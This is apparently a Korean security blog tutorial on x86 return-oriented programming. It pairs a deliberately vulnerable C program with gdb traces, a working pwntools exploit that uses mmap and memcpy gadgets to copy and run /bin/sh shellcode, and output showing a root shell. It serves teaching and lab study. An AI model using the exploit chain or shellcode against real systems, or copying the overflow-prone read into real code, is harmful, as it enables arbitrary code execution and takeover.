 ```yaml
---
layout: post
title: "x86 Return Oriented Programming (mmap)"
categories: Exploit Stack
---
```


ROP를 통해 메모리 영역 할당(mmap)하거나 할당된 메모리 영역의 권한을 변경(mprotect)하여 공격하는 방법.

## **Proof of Concept**  

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o rop rop.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
  
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
 
void main(){
    write(1,"Hello ROP\n",10);
    vuln();
}
```

"A"*66을 입력해 Overflow 가능.

```
gdb-peda$ x/24wx $ebp
0xbffff538:	0x41414141	0x0804850a	0xb7fb63dc	0xbffff560
```

**POPAD**: 스택에 존재하는 값을 EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI 레지스터에 저장.

```
gdb-peda$ x/24wx $esp
0xbfdfca50:	0x41414141	0x42424242	0x43434343	0x44444444
0xbfdfca60:	0x45454545	0x46464646	0x47474747	0x48484848
```

이 상태에서 POPAD할 경우 다음과 같이 레지스터에 저장된다.

```
EAX: 0x48484848 ('HHHH')
EBX: 0x45454545 ('EEEE')
ECX: 0x47474747 ('GGGG')
EDX: 0x46464646 ('FFFF')
ESI: 0x42424242 ('BBBB')
EDI: 0x41414141 ('AAAA')
EBP: 0x43434343 ('CCCC')
ESP: 0xbfdfca70 ("IIIIlg۷n313337277")
```

**PUSHAD**: EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI 순으로 레지스터의 값을 스택에 저장한다.  
위와 같이 POPAD 한 상태에서 PUSHAD 한 경우의 esp.

```
gdb-peda$ x/24wx $esp
0xbfe351f4:	0x41414141	0x42424242	0x43434343	0xbfe35214
0xbfe35204:	0x45454545	0x46464646	0x47474747	0x48484848
```

## **Exploit Method**
1. mmap() 함수를 이용하여 새로운 메모리 영역 할당
1. POPAD Gadget에 의해 memcpy() 함수 주소가 저장된 영역으로 이동
  * Libc의 memcpy() 함수는 Exploit Code에서 사용할 Memory 값을 복사할 수 없다.
  * memcpy() 함수는 CPU가 지원하는 Streaming SIMD 확장에 맞는 함수의 주소값을 리턴(EAX에 저장됨)
1. XCHG EAX,EDI Gadget에 의해 리턴받은 __memcpy_sse2_unaligned() 함수의 주소를 EDI 레지스터에 저장
1. POP ESI Gadget에 의해 memcpy()함수 호출 후 이동할 return address를 ESI 레지스터에 저장
1. POP EBP Gadget에 의해 1번째 인자 값을 EBP 레지스터에 저장
1. POP EBX Gadget에 의해 3번째 인자 값을 EBX 레지스터에 저장
1. PUSHAD Gadget에 의해 레지스터에 저장된 값들을 Stack 에 저장하고 0x1028 영역(0x1048 - (0x4 * 레지스터 개수(8))으로 이동
  * 2 번째 인자 값은 ESP 레지스터에 저장되어 있기 때문에 별도의 조작이 필요하지 않다.
1. 0x1028 영역에서 memcpy() 함수로 인해 Stack에 저장된 shellcode가 mmap()에 의해 생성된 메모리 영역으로 복사
1. memcpy() 함수가 종료되면 mmap()에 의해 생성된 메모리 영역으로 이동하여 shellcode를 실행
  * 해당 영역은 RWX 권한이 설정되어 있기 때문에 Shellcode 실행이 가능.

## **Exploit Code**
```python
# Exploit Code
from pwn import *

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

binary = ELF('./rop')
libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
p=process('./rop')
#gdb.attach(p)
p.recvline()
printf_addr = int(p.recvline().split()[3],16)

print('printf_addr: '+str(printf_addr))

libBase = printf_addr - 0x49670
libc_mmap = libBase + libc.symbols['mmap']
libc_memcpy = libBase + libc.symbols['memcpy']

libc_popad_ret = libBase + 0x0016b802
libc_pushad_ret = libBase + 0x0000c76c
libc_xchg_eax_edi = libBase + 0x000f5c6b
libc_pop_esi = libBase + 0x00124c3f
libc_pop_ebp = libBase + 0x00136d43
libc_pop_ebx = libBase + 0x00143fe3

new_mem = 0x20000000

payload = "A"*66
# mmap(new_mem,0x1000,0x7,0x22,0xffffffff,0)
payload += p32(libc_mmap)
payload += p32(libc_popad_ret)
payload += p32(new_mem)
payload += p32(0x1000)
payload += p32(0x7)
payload += p32(0x22)
payload += p32(0xffffffff)
payload += p32(0)
payload += 'AAAA'*2

# memcpy(new_mem,'address of shellcode',len(shellcode))
payload += p32(libc_memcpy)
payload += p32(libc_xchg_eax_edi)
payload += p32(libc_pop_esi)
payload += p32(new_mem)
payload += p32(libc_pop_ebp)
payload += p32(new_mem)
payload += p32(libc_pop_ebx)
payload += p32(len(shellcode))
payload += p32(libc_pushad_ret)
payload += shellcode

#raw_input("1")
p.sendline(payload)
p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/test# python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[*] '/root/test/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/lib/i386-linux-gnu/libc-2.23.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './rop': pid 4854
printf_addr: 3084265072
[*] Switching to interactive mode
$ 
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
[https://www.lazenca.net/display/TEC/03.ROP%28Return+Oriented+Programming%29+-+mmap%2C+mprotect](https://www.lazenca.net/display/TEC/03.ROP%28Return+Oriented+Programming%29+-+mmap%2C+mprotect)

